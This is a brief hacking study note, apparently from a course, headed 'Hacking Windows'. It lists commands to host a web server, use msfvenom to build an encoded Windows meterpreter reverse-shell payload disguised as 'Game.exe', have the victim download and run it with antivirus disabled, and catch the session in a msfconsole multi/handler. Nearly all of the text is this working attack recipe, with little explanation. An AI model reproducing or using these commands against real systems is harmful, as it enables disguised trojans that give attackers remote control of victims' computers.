

Day4
Terms Group Policy
https://www.youtube.com/watch?v=Kojaz0uFIKk&list=PL2U8BLk0YRjAzuDrrg02nG0aQeaQt47ij&index=8&t=0s Objective Hacking Windows
#
Create a webserver Use
systemctl start apache2 //to start a web server
#
Create a malicious payload with venom Navigate to /var/www/html and create a folder COD(say).
Now inside COD use
msfvenom -p windows/meterpreter/reverse_tcp --platform windows-a x86 -e x86/shikata_ga_nai -b “\x00” LHOST=<KaliIP> -f exe > /var/www/html/COD/Game.exe msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe LHOST=192.168.43.50 LPORT=4444 > /var/www/html/COD/game.exe
#
Let the target download the payload Before downloading switch off the windows defender or any other antivirus.
#
Wait with a meterpreter session Open msfconsole on kali
> use multi/handler
> set payload windows/meterpreter/reverse_tcp
> show options
> set LHOST <kaliIP>
>exploit -j -z
#
Let victim execute the stuff # And we'll get the shell
>sessions
>sessions -i <ID>
